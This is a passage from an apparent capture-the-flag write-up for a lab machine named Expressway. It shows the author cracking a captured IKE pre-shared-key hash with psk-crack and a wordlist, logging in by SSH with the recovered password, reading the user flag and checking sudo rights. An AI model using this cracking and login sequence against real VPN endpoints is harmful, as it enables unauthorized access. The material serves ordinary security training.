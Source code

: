 So we got mode `5400` and can crack with it. <br>
Checking about this article and found out [capturing-and-cracking-the-hash](https://angelica.gitbook.io/hacktricks/network-services-pentesting/ipsec-ike-vpn-pentesting#capturing-and-cracking-the-hash) using `psk-crack` so we go with this one.

```bash
└─$ psk-crack -d /usr/share/wordlists/rockyou.txt hash.txt 
Starting psk-crack [ike-scan 1.9.6] (http://www.nta-monitor.com/tools/ike-scan/)
Running in dictionary cracking mode
key "freakingrockstarontheroad" matches SHA1 hash a4d3a0b34a9dfea1fef8f5025a894894c68e8e71
Ending psk-crack: 8045040 iterations in 11.123 seconds (723258.17 iterations/sec)
```

Got the password for `ike@expressway.htb`. <br>
&rarr; `freakingrockstarontheroad`.

```bash
└─$ ssh ike@expressway.htb
ike@expressway.htb's password: 
Last login: Wed Sep 17 12:19:40 BST 2025 from 10.10.14.64 on ssh
Linux expressway.htb 6.16.7+deb14-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.16.7-1 (2025-09-11) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Sep 21 03:42:21 2025 from 10.10.16.5
ike@expressway:~$ ls -la
total 32
drwx------ 4 ike  ike  4096 Sep 16 10:23 .
drwxr-xr-x 3 root root 4096 Aug 14 22:48 ..
lrwxrwxrwx 1 root root    9 Aug 29 14:57 .bash_history -> /dev/null
-rw-r--r-- 1 ike  ike   220 May 18 22:58 .bash_logout
-rw-r--r-- 1 ike  ike  3526 Aug 28 12:49 .bashrc
drwxr-xr-x 3 ike  ike  4096 Aug 28 12:29 .local
-rw-r--r-- 1 ike  ike   807 May 18 22:58 .profile
drwx------ 2 ike  ike  4096 Sep 16 10:21 .ssh
-rw-r----- 1 root ike    33 Sep 21 03:11 user.txt
ike@expressway:~$ cat user.txt
5ce07f6d00c8725155d1fddab722bee6
```

We are in `ike` and nailed the `user.txt` flag.

## Initial Access
Let's doing some recon inside `ike`.

### Discovery
```bash
ike@expressway:~$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

For security reasons, the password you type will not be visible.

Password: 
Sorry, user ike may not run sudo on expressway.
```
